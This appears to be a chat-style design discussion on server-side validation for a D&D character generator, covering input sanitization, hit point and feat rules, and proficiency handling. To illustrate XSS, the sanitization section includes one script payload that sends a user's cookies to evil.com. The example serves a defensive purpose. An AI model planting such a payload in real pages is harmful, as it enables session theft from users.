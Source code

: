 ### Tier 5: Non-Mechanical and Security Validation

This tier is less about D&D rules and more about application health and security.

- **Sanitization of All Text Inputs:**
  - This is a **critical security measure**. Any free-text field (`character_name`, `backstory`, `appearance`, `notes`) must be sanitized on the server to prevent Cross-Site Scripting (XSS) and other injection attacks. A user could try to save a character named `<script>document.location='http://evil.com/steal?cookie='+document.cookie</script>`. Your server must strip or encode such malicious input.
- **Data Type and Format Validation:**
  - Ensure all submitted data is of the expected type (e.g., `level` is an integer, `name` is a string, `proficiencies` is an array of strings). This prevents data corruption and server errors.
- **Exclusion of Temporary Effects:**
  - The character data saved to your database should represent the character's **base state at rest**. The server should strip out any temporary effects submitted by the client (e.g., the +1d4 from the `Bless` spell, temporary HP, conditions). These are gameplay-state concerns, not permanent character-sheet data.

By implementing this exhaustive, multi-tiered validation approach, you create a system where it is computationally impossible for a user to save an invalid character. Your server becomes the ultimate arbiter of the rules, ensuring every character in your database is 100% legitimate.

---

Now please review the information and discussion an elements which need to be valdiated but have not been included

---

You are absolutely right to press for more detail. An exhaustive validation is what separates a good character generator from a truly robust, secure, and trustworthy one. The previous discussions covered the primary parameters, but several crucial nuances and inter-dependencies were not explicitly detailed.

These missing elements are often where subtle "bugs" or exploits can appear in a character's data, allowing them to be more powerful than the rules intend.

Here is a more exhaustive discussion of the validation parameters that must be included.

---

### 1. Nuances in Core Mechanics and Leveling Up

These are rules that are often misinterpreted or overlooked during the automated creation process.

- **Hit Point Choices on Level Up:**
  - **The Rule:** When a character levels up, they can either take the fixed average value for their class's hit die (e.g., 5 for a d8, 6 for a d10) or roll the die.
  - **Validation:** Your server must validate this choice. If the client sends a "rolled" HP value for a level-up, you must verify that the increase is within the valid range: `1` to `[max value of hit die]`. For example, a Fighter (d10) leveling up can only add between 1 and 10 HP (+ their CON modifier) per level. An increase of 11 or more is invalid. For simplicity and to prevent "roll-spoofing," many applications choose to **only allow and enforce the fixed average value**.
- **Feat and Ability Score Improvement (ASI) Interplay:**
  - **The Rule:** Some feats grant a +1 to an ability score. This increase is part of the feat and is separate from the standard ASI option.
  - **Validation:** When a character takes a feat that includes an ability score increase, the server must verify that the score was only increased by 1, and that the character did not _also_ take the standard +2 or +1/+1 ASI. A player cannot take the `Grappler` feat _and_ get +2 STR at level 4; they get the `Grappler` benefits which include a +1 to STR or DEX.
- **Duplicate Proficiency Handling:**
  - **The Rule:** If a character would gain the same proficiency from two different sources (e.g., their background gives them Stealth and their class also lets them choose Stealth), they are typically allowed to choose another skill proficiency of the same kind (skill for skill, tool for tool).